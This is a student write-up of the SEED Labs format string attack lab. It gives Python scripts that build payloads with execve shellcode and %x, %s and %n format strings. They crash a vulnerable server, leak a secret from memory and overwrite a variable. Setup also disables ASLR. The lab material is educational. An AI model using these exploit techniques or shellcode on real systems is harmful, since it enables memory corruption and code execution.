


# **Week 7**

## **SEED Labs**

### Format String Attack Lab

### **Setup**

* First we turned off the Linux Kernel countermeasures, such as Address Space Randomization, because it randomizes the starting address of heap and stack making it harder to guess and guessing addresses is one of the critical steps of the string-formatting attack, we disabled it with the command shown on the lab guide:

```shell
sudo sysctl -w kernel.randomize_va_space=0
```


* Then we run a makefile that will compile the program which we will exploit its vulnerability and install it into fmt-containers folder.


* Now we will run in the background a container.


* Using the dockps command, we will obtain this list and get the second's shell,
note that by writing the first few characters will be sufficient as long they are unique among all the containers.


## **Task 1**

* Sending a small message to the server



* We will receive the following message in the target container's console



* Using the following python script we will get an output file named badfile that we will input into to the server, we want to cause a crash that won't print the message with the smiley faces.

#### **build_string.py**

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode 
shellcode_64 = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

# Choose the shellcode version based on your target
shellcode = shellcode_32

# Put the shellcode somewhere in the payload
start = 20              # Changed start from 0 to 20
content[start:start + len(shellcode)] = shellcode

#   12 of "%.8x", concatenated with a "%n"
s = "%s"
# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(content)
```
### Result


* The presence of a %s will cause the crash, since we're not using the memory for a printf function it might access a location where it doesn't contain addresses causing the observed crash.

## **Task 2**

## **Task 2A**

* We edited the exploit script to add a string "AAAA" then add an 100 "%x" to the bytearray and see what it will be output.

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode 
shellcode_64 = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's

content = bytearray(0x90 for i in range(N))

#add a string "AAAA"
s = "AAAA/"
fmt  = (s).encode('latin-1')
content[0:len(fmt)] = fmt

#fill the rest with 100 %x
s = "%x/"*(100)
fmt2  = (s).encode('latin-1')
content[len(fmt):len(fmt)+len(fmt2)] = fmt2

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(content)
```

## **Running**


* We will run the script the same way we did in the previous task.

## **Result**


* 41414141 is the ASCII value of the string "AAAA", we can find it in the 64th %x meaning that 64 is the number of format specifiers we need.

## **Task 2B**

## **Running**


* We will run the script the same way we did in the previous task.

### **Script**

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode 
shellcode_64 = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

#add secret message address 
number = 0x080b4008
content[0:4] = (number).to_bytes(4,byteorder='little')

# print addresses and the message saved in the given address
s = "%x/" * 63 + "%s\n"
fmt  = (s).encode('ASCII')
content[4:4+len(fmt)] = fmt

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(content)
```

* With some changes in the build_string.py we sent into the array the address of the secret message.
* Then we printed all the addresses before the 64th(the one where would be the address given) and the string that we saved into the memory address with "%s".

### **Result**


 

## **Task 3**

### **Task 3A**

### **Script**

```python
#!/usr/bin/python3
import sys

# 32-bit Generic Shellcode 
shellcode_32 = (
   "\xeb\x29\x5b\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x89\x5b"
   "\x48\x8d\x4b\x0a\x89\x4b\x4c\x8d\x4b\x0d\x89\x4b\x50\x89\x43\x54"
   "\x8d\x4b\x48\x31\xd2\x31\xc0\xb0\x0b\xcd\x80\xe8\xd2\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBB"   # Placeholder for argv[1] --> "-c"
   "CCCC"   # Placeholder for argv[2] --> the command string
   "DDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')


# 64-bit Generic Shellcode 
shellcode_64 = (
   "\xeb\x36\x5b\x48\x31\xc0\x88\x43\x09\x88\x43\x0c\x88\x43\x47\x48"
   "\x89\x5b\x48\x48\x8d\x4b\x0a\x48\x89\x4b\x50\x48\x8d\x4b\x0d\x48"
   "\x89\x4b\x58\x48\x89\x43\x60\x48\x89\xdf\x48\x8d\x73\x48\x48\x31"
   "\xd2\x48\x31\xc0\xb0\x3b\x0f\x05\xe8\xc5\xff\xff\xff"
   "/bin/bash*"
   "-c*"
   # The * in this line serves as the position marker         *
   "/bin/ls -l; echo '===== Success! ======'                  *"
   "AAAAAAAA"   # Placeholder for argv[0] --> "/bin/bash"
   "BBBBBBBB"   # Placeholder for argv[1] --> "-c"
   "CCCCCCCC"   # Placeholder for argv[2] --> the command string
   "DDDDDDDD"   # Placeholder for argv[3] --> NULL
).encode('latin-1')

N = 1500
# Fill the content with NOP's
content = bytearray(0x90 for i in range(N))

#add target address 
target = 0x080e5068
content[0:4] = (target).to_bytes(4,byteorder='little')

# print addresses and the message saved in the given address
s = "%x/" * 63 + "%n"
fmt  = (s).encode('ASCII')
content[4:4+len(fmt)] = fmt

# Save the format string to file
with open('badfile', 'wb') as f:
  f.write(content)
```


* With some changes in the build_string.py we sent into the array the address of the target.

### **Result**


* Due to the fact that we sent a "%n" into the bytearray, the target's value will be changed.


### **Task 3B** - Change the value to 0x5000

* Now we can write on the target, and all we needed was to insert the correct amount of characters in the string, in order to make the number of characters before the %n value, equal to 0x5000.

* After converting that value a decimal number, we realized we had to have 20480 characters before the n.

* So to print 0x5000 (20480), we need each %x call to have a precision of 325 (20480 / 63 = 325.079) characters. With this precision we will miss the 20480 value by 1 (325 * 63 + 4 (4 initial bytes of the string) = 20479). This way, we added an extra character a before the %n call.

With the following script we accomplished the task successfully:

```
s = "\x68\x50\x0e\x08" + "%325x" * 63  + "a%n\n"

The target variable's value (after):  0x00005000
```


